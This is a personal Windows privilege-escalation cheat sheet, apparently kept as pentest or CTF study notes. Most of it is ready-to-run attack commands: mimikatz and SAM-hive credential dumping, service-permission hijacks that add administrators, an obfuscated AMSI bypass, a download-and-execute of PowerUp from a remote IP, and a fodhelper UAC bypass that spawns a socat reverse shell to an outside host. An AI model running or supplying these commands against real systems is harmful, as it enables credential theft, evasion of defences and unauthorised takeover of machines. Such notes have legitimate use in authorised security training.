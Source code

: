 #### checklist
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [jaws](https://github.com/411Hall/JAWS)
- bloodhound - AD env
- PowerView
- PowerUp
- mimikatz
- [GhostPacks](https://github.com/GhostPack)
- [GhostPacks-compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [Wadcom](https://wadcoms.github.io/) Cheat sheet for windows offensive tools
- sherlock.ps1
- [windows exploit suggestor](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)
- 
```
- use enumeration tools
- remember to use **netcat** for reverse shells!
- check users in local machine and domain
- check groups in local machine and domain
- check current user groups
- check current user permissions --- what?
- check config files 
- check log files
- check Unattended files
- check powershell history
- check if AV enabled
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
- Windows AutoLogon credentails
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
```

- exploiting privileges [show me your privs, and I will lead you to system](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)
- kernel exploits: https://github.com/ASR511-OO7/windows-kernel-exploits
- offsec exploits db: https://github.com/offensive-security/exploitdb-bin-sploits
- AD cheatsheet : https://wadcoms.github.io/
- sweet potato rule all [potato exploits](https://jlajara.gitlab.io/Potatoes_Windows_Privesc), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)
	
- Windows DLLs search order
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

No.5 becomes No.2 when safe DLL search mode is disabled
```
- command to-go list
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
systeminfo
ipconfig /all
route print
netstat -nao
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
runas /user:backupadmin cmd
cat C:/xampp/mysql/bin/mysql.ini
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# windows creds object & winrm from powershell 
$password = ConvertTo-SecureString "password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
## show unquoted services 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# show scheduleds
Get-ScheduledTask
schtasks /query /fo LIST /v
# Start A process in background
Start-Process -WindowStyle Minimized -FilePath file.exe
```

- mimikatz
```powershell
privilege::debug
sekurlsa::logonPasswords full
sekurlsa::wdigest
lsadump::sam
lsadump::secrets
lsadump::cache
sekurlsa::dpapi

```

### Unattended Windows Installations
```
# credentails such as <Password>
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
### IIS config path
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### powershell & cmd
```powershell
# secrets dump SAM SYSTEM
secretsdump.py -sam sam -system system local
# putty proxy credentails 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# copy system/sam files
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
# read encrypted file 
$ss = Import-CliXml -Path user.txt
$ss.GetNetworkCredential().Password # password is property to read
# find db connections in IIS config file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

# winlogon logged users credentials
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
# saved windows credentails| if creds exist can be used with runas
cmdkey /list 

# AutoRuns - check permisisons  | run on user login
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# read saved powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# run cmd as another user
runas /savecred /user:mike cmd.exe

# scheduled tasks
schtasks /query /tn vulntask /fo list /v

# find unquoted services
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

# ----exploiting----- 
#AlwaysInstallElevated|check regs files set to 1,if exist create msi shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msiexec /quiet /qn /i payload.msi
# if nt/INTERACTIVE has full perms use exploit to run c code as localSystem
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
#confirm exploitation
net localgroup administrators
# filepermservice.exe service 
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
sc start filepermsvc
# abuse startup files at login
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# permissions using accesschk64 | SERVICE_CHANGE_CONFIG
accesschk64.exe -wuvc daclsvc
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
# Hot Potato exploit
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

```
- powershell
```powershell
# download files
Invoke-WebRequest -URI $URL -OutFile $Path
#
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
(New-Object System.Net.WebClient).DownloadString($URL)
IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.199/PowerUp.ps1');Invoke-AllChecks

#
Start-BitsTransfer -Source $URL -Destination $Path
# 
certutil.exe -urlcache -split -f $URL $Path
# find file
Get-ChildItem -Path . -Recurse -Include flag
#bypass execution policy
powershell.exe -nop -ep bypass
# start a process as another user
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -FilePath "C:\temp\shell.ps1" -Credential $cred -Computer localhost

```


- Windows Privileges:
```
By default, Windows assigns this privilege to members of the local Administrators group as well as the device's LOCAL SERVICE, NETWORK SERVICE, and SERVICE accounts


SeImpersonatePrivilege, SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver
SeBackup / SeRestore

```
- tools
```
WinPEAS
PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation
Metasploit
```

- firewall and AntiVirus
```powershell

#AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

- UAC bypass
```powershell
# if GUI avaliable choose cmd
msfconfig.exe

# foodhelper bypass windows AV and spawn shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.129.32:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
# tool
https://github.com/hfiref0x/UACME
```
